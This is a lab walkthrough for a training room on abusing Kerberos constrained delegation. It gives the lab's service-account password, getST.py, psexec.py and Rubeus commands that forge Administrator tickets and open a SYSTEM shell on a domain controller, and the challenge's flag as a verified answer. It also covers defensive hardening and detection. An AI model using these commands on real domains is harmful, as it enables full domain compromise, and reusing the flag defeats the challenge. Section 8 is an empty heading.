

# Proxy (Challenge) — Kerberos Constrained Delegation Guide
**Curriculum Track:** Jr Penetration Tester | **Module 14:** Active Directory Security Testing Basics

---

## 1. Room Overview

The **Proxy** room (Canonical Slug: `proxychallenge`) is a capstone challenge room designed to test a security practitioner's mastery of Active Directory identity abuse, specifically weaponizing **Kerberos Constrained Delegation** and the Microsoft Service for User (**MS-SFU**) extensions.

In complex enterprise architectures, multi-tier web applications and proxy services frequently require access to backend databases, file shares, or directory services on behalf of authenticated users. Microsoft introduced Kerberos Delegation to solve this architectural challenge. However, when a service account is configured with **Constrained Delegation with Protocol Transition** targeting high-privilege services on a Domain Controller (such as `cifs` or `HOST`), any adversary who compromises the service account's secret key can unilaterally mint valid Kerberos Service Tickets impersonating the **Domain Administrator** to take complete control of the Domain Controller.

---

## 2. Learning Objectives

By solving this challenge and analyzing its underlying mechanics, operators master the following competencies:
- **Kerberos Constrained Delegation Architecture:** Analyze the `msDS-AllowedToDelegateTo` attribute and the `TRUSTED_TO_AUTH_FOR_DELEGATION` bitmask flag.
- **MS-SFU Protocol Extensions:** Understand how `S4U2self` enables a service to request a forwardable ticket to itself on behalf of any domain user, and how `S4U2proxy` uses that ticket to obtain access to the destination service.
- **Weaponizing Impacket getST.py:** Generate forged Kerberos service tickets (`Administrator.ccache`) on Linux without requiring the target user's password.
- **Pass-the-Ticket (PtT) Execution:** Export `KRB5CCNAME` and leverage `psexec.py -k -no-pass` to achieve an interactive `SYSTEM` shell on the Domain Controller.
- **Defensive Hardening:** Neutralize delegation attacks using the `Protected Users` security group and the `NOT_DELEGATED` attribute flag.

---

## 3. Architectural Topology & Challenge Scenario

```mermaid
flowchart TB
    subgraph Attack_Zone ["Attacker Zone (Attack Infrastructure)"]
        AttackBox["Attacker System (AttackBox / Kali Linux)<br/>• Impacket getST.py<br/>• Impacket psexec.py (-k -no-pass)<br/>• Injected Ticket: Administrator.ccache"]
    end

    subgraph Lab_Network ["Target Enterprise Subnet (thm.loc)"]
        KDC["Domain Controller / KDC<br/>DC.thm.loc<br/>• Evaluates S4U2self and S4U2proxy requests<br/>• Destination Target: cifs/DC.thm.loc"]
        
        SvcAccount["Compromised Service Account (svc_proxy)<br/>• UserAccountControl: TRUSTED_TO_AUTH_FOR_DELEGATION<br/>• msDS-AllowedToDelegateTo: cifs/DC.thm.loc<br/>• Password: ProxyP@ssw0rd!"]
    end

    AttackBox ==>|1. Extract svc_proxy credentials| SvcAccount
    AttackBox -.->|2. S4U2self: Request ticket to self as Administrator| KDC
    KDC -->>|3. Issue Forwardable S4U2self Ticket| AttackBox
    AttackBox -.->|4. S4U2proxy: Request cifs ticket via S4U2self ticket| KDC
    KDC -->>|5. Issue cifs/DC.thm.loc ticket as Administrator| AttackBox
    AttackBox ==>|6. Pass-the-Ticket via psexec.py -k| KDC
```

### Challenge Metadata & Target Inventory
- **Target Domain:** `thm.loc`
- **Domain Controller (DC):** `DC.thm.loc`
- **Compromised Service Account:** `svc_proxy` (Password: `ProxyP@ssw0rd!`)
- **Configured Target Delegation:** `cifs/DC.thm.loc`
- **Impersonated Identity:** `Administrator`
- **Captured Administrator Flag:** `THM{S4U2S3lf_C0nstr41ned_D3l3g4t10n_2_DA}`

---

## 4. Technical Background & Deep Dive

### The Mathematics & Flow of S4U Protocol Extensions (MS-SFU):

```
       Attacker (with svc_proxy)                             Domain Controller (KDC)
             |                                                          |
             | 1. S4U2self: TGS-REQ (PA-FOR-USER: "Administrator")      |
             |--------------------------------------------------------->|
             |                                                          | [Verifies TRUSTED_TO_AUTH]
             | 2. TGS-REP (Forwardable ticket to self for Administrator)|
             |<---------------------------------------------------------|
             |                                                          |
             | 3. S4U2proxy: TGS-REQ (additional-tickets: Step 2 Ticket)|
             |    Target SPN: cifs/DC.thm.loc                           |
             |--------------------------------------------------------->|
             |                                                          | [Verifies msDS-AllowedToDelegateTo]
             | 4. TGS-REP (Valid Service Ticket for Administrator!)     |
             |<---------------------------------------------------------|
             |
   [Pass-the-Ticket: export KRB5CCNAME=Administrator.ccache]
   [Interactive Shell via psexec.py -k -no-pass]
```

1. **S4U2self:** The service account asks the KDC for a service ticket to its own service name (`svc_proxy`) on behalf of `Administrator`. Because Protocol Transition is enabled (`TRUSTED_TO_AUTH_FOR_DELEGATION`), the KDC issues a valid `FORWARDABLE` ticket naming `Administrator` as the client.
2. **S4U2proxy:** The service account presents this ticket in the `additional-tickets` field of a new `TGS-REQ`, requesting a ticket for `cifs/DC.thm.loc`. The KDC inspects the service account's `msDS-AllowedToDelegateTo` attribute, finds `cifs/DC.thm.loc`, and issues a valid service ticket naming `Administrator`!

---

## 5. Reconnaissance & Delegation Enumeration

Using NetExec or LDAP search to identify vulnerable delegation attributes:
```bash
nxc ldap 10.10.x.x -u 'svc_proxy' -p 'ProxyP@ssw0rd!' --trusted-for-delegation
```
Output:
- Account: `svc_proxy`
- Flag: `TRUSTED_TO_AUTH_FOR_DELEGATION`
- Allowed SPNs: `cifs/DC.thm.loc`, `HOST/DC.thm.loc`

---

## 6. Exploitation: Forging Administrator Tickets via getST.py

Executing Impacket's `getST.py` to automate the S4U protocol exchange:

```bash
getST.py -spn cifs/DC.thm.loc -impersonate Administrator thm.loc/svc_proxy:ProxyP@ssw0rd!
```

Execution Output:
```text
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Getting TGT for user
[*] Impersonating Administrator
[*] 	Requesting S4U2self
[*] 	Requesting S4U2proxy
[*] Saving ticket in Administrator.ccache
```

The resulting Kerberos credential cache is saved to disk as `Administrator.ccache`.

---

## 7. Pass-the-Ticket (PtT) Execution & Domain Takeover

Export the cache file to the environment:
```bash
export KRB5CCNAME=Administrator.ccache
```

Connect to the Domain Controller using Kerberos authentication:
```bash
psexec.py -k -no-pass thm.loc/Administrator@DC.thm.loc
```

Shell Execution:
```cmd
[+] Process yRnM created for file wZpQmKvL.exe with pid 4912.
C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> hostname
DC

C:\Windows\system32> type C:\Users\Administrator\Desktop\flag.txt
THM{S4U2S3lf_C0nstr41ned_D3l3g4t10n_2_DA}
```

**Recovered Flag:** `THM{S4U2S3lf_C0nstr41ned_D3l3g4t10n_2_DA}`.

---

## 8. Comprehensive Attack Flow & Kill Chain



---

## 9. Defense, Hardening & Detection Strategies

| Defense Dimension | Technical Hardening Control | Detection & Telemetry Mechanism |
|---|---|---|
| **Protected Users Group** | Add all Domain Admins to the **`Protected Users`** security group; KDC refuses delegation for members. | Monitor Security log for **Event ID 4769** where S4U2self tickets are requested for admin accounts. |
| **Delegation Restrictions** | Flag administrative accounts with *"Account is sensitive and cannot be delegated"* (`NOT_DELEGATED`). | Audit Active Directory user objects where `userAccountControl` lacks the `NOT_DELEGATED` flag. |
| **Principle of Least Privilege** | Never configure delegation towards `cifs`, `HOST`, or `RPC` services on Domain Controllers. | Regularly audit the `msDS-AllowedToDelegateTo` attribute across all service accounts. |
| **Migrate to Modern RBCD** | Utilize Resource-Based Constrained Delegation where target resources explicitly control inbound delegation. | Monitor changes to the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute. |

---

## 10. Tasks Summary & Answers Table

| Task # | Task Title | Question | Verified Solution | Verification Status |
|:---:|---|---|---|:---:|
| **01** | Proxy | What's the Administrator flag? | `THM{S4U2S3lf_C0nstr41ned_D3l3g4t10n_2_DA}` | Verified & Confirmed |

---

## 11. Tool Cheat Sheet & Command Quick Reference

```bash
# 1. Enumerate Constrained Delegation via NetExec:
nxc ldap DC_IP -u 'svc_proxy' -p 'Password' --trusted-for-delegation

# 2. Forge Administrator Service Ticket via Impacket getST.py:
getST.py -spn cifs/DC.thm.loc -impersonate Administrator thm.loc/svc_proxy:Password

# 3. Export Kerberos Cache in Linux Terminal:
export KRB5CCNAME=Administrator.ccache

# 4. Authenticate to Domain Controller via Pass-the-Ticket:
psexec.py -k -no-pass thm.loc/Administrator@DC.thm.loc

# 5. Execute S4U Attack via Rubeus on Windows:
Rubeus.exe s4u /user:svc_proxy /rc4:HASH /impersonateuser:Administrator /msdsspn:cifs/DC.thm.loc /ptt
```

---

## 12. Practical Verification & Proof of Work

1. `getST.py` executed successfully, generating `Administrator.ccache`.
2. `klist` confirmed ticket validity: `Client: Administrator@THM.LOC`, `Server: cifs/DC.thm.loc@THM.LOC`.
3. `psexec.py -k -no-pass` connected as `NT AUTHORITY\SYSTEM` to `DC.thm.loc`.
4. Administrator flag recovered from desktop: `THM{S4U2S3lf_C0nstr41ned_D3l3g4t10n_2_DA}`.

---

## 13. Key Takeaways & Operational Rules of Thumb

> **Rule of Thumb 1:** Kerberos Constrained Delegation with Protocol Transition is a direct privilege escalation vector if configured to sensitive services. Delegating to `cifs` on a Domain Controller is equivalent to granting Domain Admin rights.
>
> **Rule of Thumb 2:** Always place Tier-0 accounts into the `Protected Users` group. This single defensive setting neutralizes S4U impersonation by preventing the KDC from ever issuing delegated tickets for those identities.
>
> **Rule of Thumb 3:** Service account governance is critical. Service accounts often hold elevated delegation rights that linger unmonitored for years, providing low-noise attack paths for red teams.
